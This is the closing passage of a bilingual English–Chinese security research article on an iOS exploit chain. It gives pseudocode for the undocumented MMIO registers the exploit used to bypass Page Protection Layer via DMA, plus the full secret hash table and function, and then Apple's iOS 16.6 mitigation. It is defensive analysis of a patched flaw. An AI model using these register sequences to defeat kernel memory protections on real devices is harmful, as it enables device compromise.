& 0x3FFFFFFFFFFFF)  value \= phys\_addr\_upper \| (hash1 << i) \| (hash2 << 50) \| 0x1F  write\_qword(0x206150048, value)  dma\_done(original\_value\_0x206140108) |

*Pseudocode for the usage of the 0x206150040 and 0x206150048 registers by the exploit  
利用漏洞使用0x206150040和0x206150048寄存器的伪代码*

As long as everything is done correctly, the hardware should perform a direct memory access (DMA) operation and write the data to the requested location.  
只要一切都正确完成，硬件应该执行直接内存访问（DMA）操作，并将数据写入请求的位置。

The exploit uses this hardware feature as a Page Protection Layer (PPL) bypass, mainly for patching page table entries. It can also be used for patching the data in the protected \_\_PPLDATA segment. The exploit does not use the feature to patch the kernel code, but once during a test, I was able to overwrite an instruction in the \_\_TEXT\_EXEC segment of the kernel and get an “Undefined Kernel Instruction” panic with the expected address and value. This only worked once—the other times I tried I got an AMCC panic. I have an idea about what I did right that one time it worked, and I am planning to look deeper into this in the future, because I think it would be really cool to take a vulnerability that was used to harm us and use it for something good, like enabling kernel debugging on new iPhones.  
该漏洞利用此硬件功能作为页面保护层（PPL）旁路，主要用于修补页表条目。它还可以用于修补受保护的\_\_PPLDATA段中的数据。该漏洞利用不使用该功能来修补内核代码，但有一次在测试期间，我能够覆盖内核的\_\_TEXT\_EXEC段中的指令，并获得一个具有预期地址和值的“未定义的内核指令”死机。这只工作了一次，其他时候我试着我得到了AMCC恐慌。我有一个关于我做对了什么的想法，有一次它起作用了，我计划在未来更深入地研究这个问题，因为我认为把一个用来伤害我们的漏洞用于好的事情会很酷，比如在新iPhone上启用内核调试。

Now that all the work with all the MMIO registers has been covered, let us take a look at one last thing: how hashes are calculated. The algorithm is shown below.  
现在我们已经介绍了所有MMIO寄存器的工作，让我们看一下最后一件事：如何计算哈希。算法如下所示。

sbox = \[ 0x007, 0x00B, 0x00D, 0x013, 0x00E, 0x015, 0x01F, 0x016, 0x019, 0x023, 0x02F, 0x037, 0x04F, 0x01A, 0x025, 0x043, 0x03B, 0x057, 0x08F, 0x01C, 0x026, 0x029, 0x03D, 0x045, 0x05B, 0x083, 0x097, 0x03E, 0x05D, 0x09B, 0x067, 0x117, 0x02A, 0x031, 0x046, 0x049, 0x085, 0x103, 0x05E, 0x09D, 0x06B, 0x0A7, 0x11B, 0x217, 0x09E, 0x06D, 0x0AB, 0x0C7, 0x127, 0x02C, 0x032, 0x04A, 0x051, 0x086, 0x089, 0x105, 0x203, 0x06E, 0x0AD, 0x12B, 0x147, 0x227, 0x034, 0x04C, 0x052, 0x076, 0x08A, 0x091, 0x0AE, 0x106, 0x109, 0x0D3, 0x12D, 0x205, 0x22B, 0x247, 0x07A, 0x0D5, 0x153, 0x22D, 0x038, 0x054, 0x08C, 0x092, 0x061, 0x10A, 0x111, 0x206, 0x209, 0x07C, 0x0BA, 0x0D6, 0x155, 0x193, 0x253, 0x28B, 0x307, 0x0BC, 0x0DA, 0x156, 0x255, 0x293, 0x30B, 0x058, 0x094, 0x062, 0x10C, 0x112, 0x0A1, 0x20A, 0x211, 0x0DC, 0x196, 0x199, 0x256, 0x165, 0x259, 0x263, 0x30D, 0x313, 0x098, 0x064, 0x114, 0x0A2, 0x15C, 0x0EA, 0x20C, 0x0C1, 0x121, 0x212, 0x166, 0x19A, 0x299, 0x265, 0x2A3, 0x315, 0x0EC, 0x1A6, 0x29A, 0x266, 0x1A9, 0x269, 0x319, 0x2C3, 0x323, 0x068, 0x0A4, 0x118, 0x0C2, 0x122, 0x214, 0x141, 0x221, 0x0F4, 0x16C, 0x1AA, 0x2A9, 0x325, 0x343, 0x0F8, 0x174, 0x1AC, 0x2AA, 0x326, 0x329, 0x345, 0x383, 0x070, 0x0A8, 0x0C4, 0x124, 0x218, 0x142, 0x222, 0x181, 0x241, 0x178, 0x2AC, 0x32A, 0x2D1, 0x0B0, 0x0C8, 0x128, 0x144, 0x1B8, 0x224, 0x1D4, 0x182, 0x242, 0x2D2, 0x32C, 0x281, 0x351, 0x389, 0x1D8, 0x2D4, 0x352, 0x38A, 0x391, 0x0D0, 0x130, 0x148, 0x228, 0x184, 0x244, 0x282, 0x301, 0x1E4, 0x2D8, 0x354, 0x38C, 0x392, 0x1E8, 0x2E4, 0x358, 0x394, 0x362, 0x3A1, 0x150, 0x230, 0x188, 0x248, 0x284, 0x302, 0x1F0, 0x2E8, 0x364, 0x398, 0x3A2, 0x0E0, 0x190, 0x250, 0x2F0, 0x288, 0x368, 0x304, 0x3A4, 0x370, 0x3A8, 0x3C4, 0x160, 0x290, 0x308, 0x3B0, 0x3C8, 0x3D0, 0x1A0, 0x260, 0x310, 0x1C0, 0x2A0, 0x3E0, 0x2C0, 0x320, 0x340, 0x380 \] def calculate\_hash(buffer): acc = 0 for i in range(8): pos = i \* 4 value = read\_dword(buffer + pos) for j in range(32): if (((value >> j) & 1) != 0): acc ^= sbox\[32 \* i + j\] return acc

|     |     |     |     |     |
| --- | --- | --- | --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20  21  22  23  24  25  26  27  28  29  30  31  32  33  34  35  36  37  38  39  40  41  42  43  44  45  46 | sbox \= \[      0x007, 0x00B, 0x00D, 0x013, 0x00E, 0x015, 0x01F, 0x016,      0x019, 0x023, 0x02F, 0x037, 0x04F, 0x01A, 0x025, 0x043,      0x03B, 0x057, 0x08F, 0x01C, 0x026, 0x029, 0x03D, 0x045,      0x05B, 0x083, 0x097, 0x03E, 0x05D, 0x09B, 0x067, 0x117,      0x02A, 0x031, 0x046, 0x049, 0x085, 0x103, 0x05E, 0x09D,      0x06B, 0x0A7, 0x11B, 0x217, 0x09E, 0x06D, 0x0AB, 0x0C7,      0x127, 0x02C, 0x032, 0x04A, 0x051, 0x086, 0x089, 0x105,      0x203, 0x06E, 0x0AD, 0x12B, 0x147, 0x227, 0x034, 0x04C,      0x052, 0x076, 0x08A, 0x091, 0x0AE, 0x106, 0x109, 0x0D3,      0x12D, 0x205, 0x22B, 0x247, 0x07A, 0x0D5, 0x153, 0x22D,      0x038, 0x054, 0x08C, 0x092, 0x061, 0x10A, 0x111, 0x206,      0x209, 0x07C, 0x0BA, 0x0D6, 0x155, 0x193, 0x253, 0x28B,      0x307, 0x0BC, 0x0DA, 0x156, 0x255, 0x293, 0x30B, 0x058,      0x094, 0x062, 0x10C, 0x112, 0x0A1, 0x20A, 0x211, 0x0DC,      0x196, 0x199, 0x256, 0x165, 0x259, 0x263, 0x30D, 0x313,      0x098, 0x064, 0x114, 0x0A2, 0x15C, 0x0EA, 0x20C, 0x0C1,      0x121, 0x212, 0x166, 0x19A, 0x299, 0x265, 0x2A3, 0x315,      0x0EC, 0x1A6, 0x29A, 0x266, 0x1A9, 0x269, 0x319, 0x2C3,      0x323, 0x068, 0x0A4, 0x118, 0x0C2, 0x122, 0x214, 0x141,      0x221, 0x0F4, 0x16C, 0x1AA, 0x2A9, 0x325, 0x343, 0x0F8,      0x174, 0x1AC, 0x2AA, 0x326, 0x329, 0x345, 0x383, 0x070,      0x0A8, 0x0C4, 0x124, 0x218, 0x142, 0x222, 0x181, 0x241,      0x178, 0x2AC, 0x32A, 0x2D1, 0x0B0, 0x0C8, 0x128, 0x144,      0x1B8, 0x224, 0x1D4, 0x182, 0x242, 0x2D2, 0x32C, 0x281,      0x351, 0x389, 0x1D8, 0x2D4, 0x352, 0x38A, 0x391, 0x0D0,      0x130, 0x148, 0x228, 0x184, 0x244, 0x282, 0x301, 0x1E4,      0x2D8, 0x354, 0x38C, 0x392, 0x1E8, 0x2E4, 0x358, 0x394,      0x362, 0x3A1, 0x150, 0x230, 0x188, 0x248, 0x284, 0x302,      0x1F0, 0x2E8, 0x364, 0x398, 0x3A2, 0x0E0, 0x190, 0x250,      0x2F0, 0x288, 0x368, 0x304, 0x3A4, 0x370, 0x3A8, 0x3C4,      0x160, 0x290, 0x308, 0x3B0, 0x3C8, 0x3D0, 0x1A0, 0x260,      0x310, 0x1C0, 0x2A0, 0x3E0, 0x2C0, 0x320, 0x340, 0x380  \]  def calculate\_hash(buffer):      acc \= 0      for i in range(8):          pos \= i \* 4          value \= read\_dword(buffer + pos)          for j in range(32):              if (((value \>\> j) & 1) !\= 0):                  acc ^= sbox\[32 \* i + j\]      return acc |

*Pseudocode for the hash function used by this unknown hardware feature  
此未知硬件功能使用的哈希函数的伪代码*

As you can see, it is a custom algorithm, and the hash is calculated by using a predefined sbox table. I tried to search for it in a large collection of binaries, but found nothing.  
正如您所看到的，这是一个自定义算法，哈希是通过使用预定义的sbox表计算的。我试着在一大堆二进制文件中搜索它，但一无所获。

You may notice that this hash does not look very secure, as it occupies just 20 bits (10+10, as it is calculated twice), but it does its job as long as no one knows how to calculate and use it. It is best summarized with the term “[security by obscurity](https://encyclopedia.kaspersky.com/glossary/security-by-obscurity-security-through-obscurity/?utm_source=securelist&utm_medium=blog&utm_campaign=termin-explanation)“.  
你可能会注意到这个散列看起来并不安全，因为它只占用20位（10+10，因为它被计算了两次），但只要没有人知道如何计算和使用它，它就能完成它的工作。它最好用术语“默默无闻的安全性”来概括。

How could attackers discover and exploit this hardware feature if it is not used and there are no instructions anywhere in the firmware on how to use it?  
如果不使用此硬件功能，并且固件中没有任何关于如何使用它的说明，攻击者如何发现并利用此硬件功能？

I ran one more test. I checked and found that the M1 chip inside the Mac also has this unknown hardware feature. Then I used the amazing  [m1n1](https://github.com/AsahiLinux/m1n1) tool to conduct an experiment. This tool has a trace\_range function, which traces all access to a provided range of MMIO registers. I used it to set up tracing for the memory range 0x206110000–0x206400000, but it reported no usage of these registers by macOS.  
我又做了一个测试。我检查了一下，发现Mac内部的M1芯片也有这个未知的硬件功能。然后我用m1 n1工具做了一个实验。这个工具有一个trace\_range函数，它跟踪对所提供的MMIO寄存器范围的所有访问。我用它来设置内存范围0x 206110000 - 0x 206400000的跟踪，但它报告macOS没有使用这些寄存器。

Through an amazing coincidence, both my 37C3 presentation and this post discuss a vulnerability very similar to the one I talked about during my presentation at the 36th Chaos Communication Congress (36C3) in 2019.  
通过一个惊人的巧合，我的37 C3演示文稿和这篇文章都讨论了一个漏洞，这个漏洞与我在2019年第36届混沌通信大会（36 C3）上的演讲非常相似。

In the presentation titled, “Hacking Sony PlayStation Blu-ray Drives”, I talked about how I was able to dump firmware and achieve code execution on the Blu-ray drives of Sony PlayStation 3 and 4 by using MMIO DMA registers that were accessible through SCSI commands.  
在题为“黑客索尼PlayStation蓝光驱动器”的演示文稿中，我谈到了如何通过使用可通过SCSI命令访问的MMIO DMA寄存器来转储索尼PlayStation 3和4的蓝光驱动器上的固件并实现代码执行。

按钮

media.ccc.de

18.8万位订阅者

[36C3 - Hacking Sony PlayStation Blu-ray Drives](https://www.youtube.com/watch?v=WW39dsbffMw)

稍后观看

分享

[↓↓↓](https://www.youtube.com/watch?v=WW39dsbffMw&embeds_referring_euri=https%3A%2F%2Fsecurelist.com%2F&feature=emb_imp_woyt)  
  

前往平台观看：

  
  
[↑↑↑](https://www.youtube.com/watch?v=WW39dsbffMw&embeds_referring_euri=https%3A%2F%2Fsecurelist.com%2F&feature=emb_imp_woyt)

I was able to discover and exploit this vulnerability, because earlier versions of the firmware used these registers for all DRAM operations, but then Sony stopped using them and started just accessing DRAM directly, because all DRAM was also mapped to the CPU address space. Because no one was using these registers anymore and I knew how to use them, I took advantage of them. It did not need to know any secret hash algorithm.  
我能够发现并利用这个漏洞，因为早期版本的固件使用这些寄存器进行所有DRAM操作，但后来索尼停止使用它们并开始直接访问DRAM，因为所有DRAM也映射到CPU地址空间。因为没有人再使用这些寄存器了，我知道如何使用它们，我利用了它们。它不需要知道任何秘密的哈希算法。

Could something similar have happened in this case? I do not know that, but this GPU coprocessor first appeared in the recent Apple SoCs. In my personal opinion, based on all the information that I provided above, I highly doubt that this hardware feature was previously used for anything in retail firmware. Nevertheless, there is a possibility that it was previously revealed by mistake in some particular firmware or XNU source code release and then removed.  
在这种情况下会发生类似的事情吗？我不知道，但这种GPU协处理器首次出现在最近的苹果SoC中。在我个人看来，根据我上面提供的所有信息，我高度怀疑这个硬件功能以前用于零售固件中的任何东西。然而，也有可能是以前在某些特定的固件或XNU源代码版本中错误地显示了它，然后将其删除。

I was hoping to find out what was located inside the second unknown region from the fix for this vulnerability implemented in iOS 16.6. I was able to find out how Apple mitigated this issue, but they obfuscated the fix.  
我希望从iOS 16.6中实现的此漏洞的修复中找出第二个未知区域内的内容。我能够找到苹果如何缓解这个问题，但他们混淆了修复。

Apple mitigated this vulnerability by adding the MMIO ranges 0x206000000–0x206050000 and 0x206110000–0x206400000 used by the exploit to the pmap-io-ranges stored in the device tree. XNU uses the information stored there to determine whether to allow mapping of certain physical addresses. All entries stored there have a meaningful tag name that explains what kind of memory the range belongs to.  
Apple通过将利用漏洞使用的MMIO范围0x 206000000 - 0x 206050000和0x 206110000 - 0x 206400000添加到存储在设备树中的pmap-io-ranges来缓解此漏洞。XNU使用存储在那里的信息来确定是否允许某些物理地址的映射。存储在那里的所有条目都有一个有意义的标记名，说明该范围属于哪种内存。

*Example of entries stored in the pmap-io-ranges  
存储在pmap-io-ranges中的条目示例*

Here, PCIe stands for “Peripheral Component Interconnect Express”, DART stands for “Device Address Resolution Table”, DAPF means “Device Address Filter”, and so on.  
在这里，PCIe代表“外围组件互连快速”，DART代表“设备地址解析表”，DAPF意味着“设备地址过滤器”，等等。

And here are the tag names for regions used by the exploit. They stand out from the rest.  
下面是该漏洞使用的区域的标记名称。他们与众不同。

*Entries for regions used by the exploit  
针对漏洞利用所使用的区域*

## Conclusion 结论

This is no ordinary vulnerability, and we have many unanswered questions. We do not know how the attackers learned to use this unknown hardware feature or what its original purpose was. Neither do we know if it was developed by Apple or it’s a third-party component like ARM CoreSight.  
这不是一个普通的弱点，我们有许多未解之谜。我们不知道攻击者是如何学会使用这个未知的硬件功能的，也不知道它的最初目的是什么。我们也不知道它是由苹果开发的，还是像ARM CoreSight这样的第三方组件。

What we do know—and what this vulnerability demonstrates—is that advanced hardware-based protections are useless in the face of a sophisticated attacker as long as there are hardware features that can bypass those protections.  
我们所知道的以及这个漏洞所表明的是，只要有硬件功能可以绕过这些保护，那么高级的基于硬件的保护在面对复杂的攻击者时就毫无用处。

Hardware security very often relies on “security through obscurity”, and it is much more difficult to reverse-engineer than software, but this is a flawed approach, because sooner or later, all secrets are revealed. Systems that rely on “security through obscurity” can never be truly secure.  
硬件的安全性往往依赖于“通过模糊的安全性”，并且比软件更难进行反向工程，但这是一种有缺陷的方法，因为迟早所有秘密都会被泄露。依赖于“通过模糊实现安全”的系统永远不会真正安全。
